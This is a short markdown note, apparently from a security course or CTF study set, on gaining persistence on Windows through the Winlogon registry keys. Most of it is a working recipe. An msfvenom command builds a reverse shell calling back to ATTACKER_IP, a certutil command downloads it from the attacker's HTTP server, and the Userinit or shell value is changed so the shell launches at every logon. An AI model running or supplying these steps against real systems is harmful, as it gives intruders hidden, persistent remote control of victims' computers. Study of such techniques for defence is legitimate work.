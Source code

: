 #### What is `Winlogon`?
The Windows component that is responsible for ***handling the secure attention sequence***, ***loading your user profile right after authentication***, ***creates the desktop for the window station***, and optionally ***locking the computer when a screensaver is running***.

Winlogon uses some registry keys under: `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`
- `Userinit:` points to `userinit.exe`, which is in charge of restoring your user profile preferences.
- `shell:` points to the system's shell, which is usually `explorer.exe`.
![[Winlogon.png]]

**If we'd replace any of the executables with reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands seperated by a comma, and Winlogon will process them all..**

#### Create a Reverse shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
```

#### Transfer the Shell
```bash
python3 -m http.server
```

```cmd
certutil -urlcache -split -f http://<attacker_ip>:8000/revshell.exe
```

**Move the shell in Windows directory**
```cmd
move revshell.exe C:\Windows
```

Now, alter either `shell` or `userinit` in registry.

**Sign out of your current session and log in again.**
